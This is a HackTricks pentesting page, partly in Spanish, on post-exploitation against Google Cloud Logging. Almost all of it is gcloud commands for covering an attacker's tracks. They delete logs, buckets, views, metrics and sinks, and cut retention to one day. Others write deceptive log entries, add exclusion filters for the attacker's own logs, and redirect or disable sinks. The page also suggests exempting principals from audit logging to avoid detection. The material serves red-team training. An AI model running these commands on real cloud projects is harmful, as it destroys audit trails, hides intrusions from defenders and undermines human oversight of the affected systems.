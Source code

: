 # GCP - Logging Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

For more information check:

{% content-ref url="../gcp-services/gcp-logging-enum.md" %}
[gcp-logging-enum.md](../gcp-services/gcp-logging-enum.md)
{% endcontent-ref %}

For other ways to disrupt monitoring check:

{% content-ref url="gcp-monitoring-post-exploitation.md" %}
[gcp-monitoring-post-exploitation.md](gcp-monitoring-post-exploitation.md)
{% endcontent-ref %}

### Default Logging

**Por defecto, no te atraparán solo por realizar acciones de lectura. Para más información, consulta la sección de Logging Enum.**

### Add Excepted Principal

En [https://console.cloud.google.com/iam-admin/audit/allservices](https://console.cloud.google.com/iam-admin/audit/allservices) y [https://console.cloud.google.com/iam-admin/audit](https://console.cloud.google.com/iam-admin/audit) es posible agregar principales para no generar logs. Un atacante podría abusar de esto para evitar ser atrapado.

### Read logs - `logging.logEntries.list`

{% code overflow="wrap" %}
```bash
# Read logs
gcloud logging read "logName=projects/your-project-id/logs/log-id" --limit=10 --format=json

# Everything from a timestamp
gcloud logging read "timestamp >= \"2023-01-01T00:00:00Z\"" --limit=10 --format=json

# Use these options to indicate a different bucket or view to use: --bucket=_Required  --view=_Default
```
{% endcode %}

### `logging.logs.delete`

{% code overflow="wrap" %}
```bash
# Delete all entries from a log in the _Default log bucket - logging.logs.delete
gcloud logging logs delete <log-name>
```
{% endcode %}

### Escribir registros - `logging.logEntries.create`

{% code overflow="wrap" %}
```bash
# Write a log entry to try to disrupt some system
gcloud logging write LOG_NAME "A deceptive log entry" --severity=ERROR
```
{% endcode %}

### `logging.buckets.update`

{% code overflow="wrap" %}
```bash
# Set retention period to 1 day (_Required has a fixed one of 400days)

gcloud logging buckets update bucketlog --location=<location> --description="New description" --retention-days=1
```
{% endcode %}

### `logging.buckets.delete`
```bash
# Delete log bucket
gcloud logging buckets delete BUCKET_NAME --location=<location>
```
### `logging.links.delete`

{% code overflow="wrap" %}
```bash
# Delete link
gcloud logging links delete <link-id> --bucket <bucket> --location <location>
```
{% endcode %}

### `logging.views.delete`
```bash
# Delete a logging view to remove access to anyone using it
gcloud logging views delete <view-id> --bucket=<bucket> --location=global
```
### `logging.views.update`

{% code overflow="wrap" %}
```bash
# Update a logging view to hide data
gcloud logging views update <view-id> --log-filter="resource.type=gce_instance" --bucket=<bucket> --location=global --description="New description for the log view"
```
{% endcode %}

### `logging.logMetrics.update`

{% code overflow="wrap" %}
```bash
# Update log based metrics - logging.logMetrics.update
gcloud logging metrics update <metric-name> --description="Changed metric description" --log-filter="severity>CRITICAL" --project=PROJECT_ID
```
{% endcode %}

### `logging.logMetrics.delete`
```bash
# Delete log based metrics - logging.logMetrics.delete
gcloud logging metrics delete <metric-name>
```
### `logging.sinks.delete`
```bash
# Delete sink - logging.sinks.delete
gcloud logging sinks delete <sink-name>
```
### `logging.sinks.update`

{% code overflow="wrap" %}
```bash
# Disable sink - logging.sinks.update
gcloud logging sinks update <sink-name> --disabled

# Createa filter to exclude attackers logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --add-exclusion="name=exclude-info-logs,filter=severity<INFO"

# Change where the sink is storing the data - logging.sinks.update
gcloud logging sinks update <sink-name> new-destination

# Change the service account to one withuot permissions to write in the destination - logging.sinks.update
gcloud logging sinks update SINK_NAME --custom-writer-identity=attacker-service-account-email --project=PROJECT_ID

# Remove explusions to try to overload with logs - logging.sinks.update
gcloud logging sinks update SINK_NAME --clear-exclusions

# If the sink exports to BigQuery, an attacker might enable or disable the use of partitioned tables, potentially leading to inefficient querying and higher costs. - logging.sinks.update
gcloud logging sinks update SINK_NAME --use-partitioned-tables
gcloud logging sinks update SINK_NAME --no-use-partitioned-tables
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
